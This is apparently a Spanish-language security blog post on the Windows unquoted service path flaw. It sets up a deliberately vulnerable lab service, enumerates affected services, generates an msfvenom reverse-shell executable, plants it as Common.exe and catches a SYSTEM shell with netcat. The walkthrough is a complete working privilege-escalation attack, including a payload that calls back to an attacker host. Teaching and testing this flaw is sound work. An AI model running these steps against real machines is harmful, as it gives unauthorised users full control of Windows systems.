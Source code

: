 ```yaml
---
layout: post
title: Unquoted Service Path
subtitle: Unquoted Service Path
tags: [privesc,windows]
---
```


Si la ruta a un binario del servicio no está entre comillas y contiene espacio en blanco puede dar como resultado que un usuario local con privilegios bajos tenga posibilidad de elevar el privilegio a shell de sistema.

La API de Windows debe asumir donde encontrar la aplicación a la que se hace referencia si la ruta contiene espacios y no está entre comillas.  
Por ejemplo un servicio vulnerable:

```
C:\Program Files\Unquoted Path Service\Common Files\file.exe
```

El sistema leerá esta ruta en la siguiente secuencia de 1 a 4 para activar `file.exe` a tráves de un directorio grabable

```
C:\Program.exe
C:\Program Files\Unquoted.exe
C:\Program Files\Unquoted Path.exe
C:\Program Files\Unquoted Path Service\Common.exe
C:\Program Files\Unquoted Path Service\Common Files\file.exe
```

### Configuración de la laboratorio

Desde un usuario con privilegios de crear servicios

```
mkdir "Unquoted Path Service"
cd "Unquoted Path Service"
mkdir "Common Files"
sc create "vuln" binpath= "C:\Program Files\Unquoted Path Service\Common Files\files.exe" start= auto
icacls "C:\Program Files\Unquoted Path Service" /grant "BUILTIN\Users":W
subinacl.exe /service vuln /grant=win7\test123=PTO
```

Enumerando servicios con esta vulnerabilidad

| argumento | descripción |
|----|---|
| /i | no distinguir entre mayuscula y minusculas |
| /v | imprime lineas que no tienen coincidencia |

```
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
ScsiAccess                                                      ScsiAccess                      C:\Program Files\Photodex\ProShow Producer\ScsiAccess.exe                                Auto 
System Scheduler Service                                        WindowsScheduler                C:\PROGRA~1\SYSTEM~1\WService.exe                                                        Auto 
vuln                                                            vuln                            C:\Program Files\Unquoted Path Service\Common Files\files.exe                            Auto 
```

Consultar el estado del servicio 

```
sc query vuln
SERVICE_NAME: vuln 
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Consultar sobre información de configuración para el servicio

```
sc qc vuln
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: vuln
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\files.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : vuln
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

Comprobamos los permisos en la carpeta `C:\Program Files\Unquoted Path Service`

```
icacls "C:\Program Files\Unquoted Path Service"
C:\Program Files\Unquoted Path Service BUILTIN\Users:(W)
                                       NT SERVICE\TrustedInstaller:(I)(F)
                                       NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                       NT AUTHORITY\SYSTEM:(I)(F)
                                       NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                       BUILTIN\Administrators:(I)(F)
                                       BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                       BUILTIN\Users:(I)(RX)
                                       BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                       CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```

Creación de la carga útil

```
❯ sudo msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.107 lport=4444 -f exe > shell.exe
```

Desde la máquina Windows transferimos el ejecutable y renombramos a `Common.exe`

```
copy \\192.168.0.107\share\shell.exe shell.exe
move shell.exe Common.exe
```

Obteniendo una shell como sistema

```
sc start vuln

───────────────────────────────────────────────────────────────
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.102] 49201
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```
